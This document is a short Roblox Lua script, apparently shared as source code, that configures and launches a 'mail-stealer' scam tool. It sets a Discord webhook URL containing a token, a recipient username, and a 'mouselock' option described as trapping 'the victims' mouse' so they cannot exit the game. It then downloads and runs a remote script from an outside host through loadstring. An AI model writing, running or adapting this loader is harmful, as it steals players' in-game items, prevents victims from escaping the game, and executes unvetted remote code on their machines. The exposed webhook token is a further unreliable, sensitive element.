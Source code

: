 getgenv().webhook = "https://discord.com/api/webhooks/1005294852243734649/DA1FNmpZTu3wcf6GtOVUFn9X2gMz-p9rFazEGpZIoBPf7ixpbg1JltCYvzg5gRpilRz1" -- replace it with your webhook
getgenv().name = "kazaman_lol" -- replace bigscammer8 with your username
getgenv().mouselock = true -- change this to true if you want the victims mouse to be locked in one place so he cant exit out of roblox etc
loadstring(game:HttpGetAsync("https://wumat.xyz/scripts/mail-stealer.lua", true))()
